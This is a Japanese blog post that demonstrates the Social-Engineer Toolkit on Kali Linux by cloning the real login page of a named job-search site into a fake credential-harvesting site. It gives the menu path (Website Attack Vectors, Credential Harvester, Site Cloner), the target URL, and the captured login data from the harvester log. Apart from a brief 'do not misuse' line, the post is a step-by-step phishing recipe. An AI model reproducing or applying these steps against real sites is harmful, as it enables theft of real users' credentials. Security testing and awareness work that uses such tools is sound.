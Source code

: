 ```yaml
---
Title: Social Engineering Toolkitを使って瞬殺で偽サイトを作ってみる
Date: 2015-02-11T13:21:47+09:00
URL: https://blog.turai.work/entry/20150211/1423628507
EditURL: https://blog.hatena.ne.jp/thr3a/thr3a.hatenablog.com/atom/entry/8454420450083151476
---
```


例によって**悪用厳禁**

#Social Engineering Toolkitとは

[Social-Engineer Toolkit - TrustedSec - Information Security](https://www.trustedsec.com/social-engineer-toolkit/)

通称SET　ペネトレーションテスト用のツールなのか？多機能すぎてまだ網羅できてないけど、機能の一つ、偽サイト作成を試してみる

せっかくなので[マイナビ2016のログイン画面](http://job.mynavi.jp/16/pc/toppage/login/index)の偽サイトを作ってみる＾＾

#インストール
通常だと`git clone https://github.com/trustedsec/social-engineer-toolkit/ set/`ってやるんだろうけど色々ライブラリ足さなきゃいけないらしく、面倒なので一式入った[Kali Linux](https://www.kali.org/)を利用した

Debianベースのディストリビューションとのことなので適当にインスコ

#起動
インストール後、適当なユーザーを作っておく。そのユーザーで以下
```
sudo setoolkit
```
すると怪しいツールが起動するので以下
```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Fast-Track Penetration Testing
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 1
```
```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2
```
```
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) Full Screen Attack Method

  99) Return to Main Menu

set:webattack>3
```
```
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
```
だまし取ったパスワード等の送信先　今回はlocalhostなので何も入力しない
```
set:webattack> IP address for the POST back in Harvester/Tabnabbing:
```
偽サイトを作成するにあたって本物サイトのURLここでは[マイナビ2016のログイン画面](http://job.mynavi.jp/16/pc/toppage/login/index)なので**http://job.mynavi.jp/16/pc/toppage/login/index**と入力
```
set:webattack> Enter the url to clone:http://job.mynavi.jp/16/pc/toppage/login/index
```
あとは自動でクローンしてApacheまで起動してくれる　まさに瞬殺

# 実際に騙されてみる
完了後は`localhost`にアクセスするとご対面できる
<p><span itemscope itemtype="http://schema.org/Photograph"><img src="http://cdn-ak.f.st-hatena.com/images/fotolife/t/thr3a/20150211/20150211132109.png" alt="f:id:thr3a:20150211132109p:plain" title="f:id:thr3a:20150211132109p:plain" class="hatena-fotolife" itemprop="image"></span></p>
うーんこの

で実際にログインしたあと
```
user@kali:~$ cat /var/www/harvester_2015-02-11\ 10\:27\:30.404102.txt 
Array
(
    [corpId] => 
    [fullPath] => 
    [nextUrl] => /toppage/displayTopPage/index?reqcd=1688759746
    [displayControlKbn] => memberLogin
    [headDispMessage] => �}�C�y�[�W�փ��O�C�����܂��B
    [corpName] => 
    [loginTitle] => ���O�C�����
    [isSecure] => 0
    [autoLoginKey] => 
    [bookmarkMode] => 
    [memberId] => 114514
    [password] => p@ssw0rd
    [doLogin] => ���O�C��
)
```

まぁURLがアレだけどコピー精度は抜群　本物だって（デフォルトだと）httpsじゃないんだし
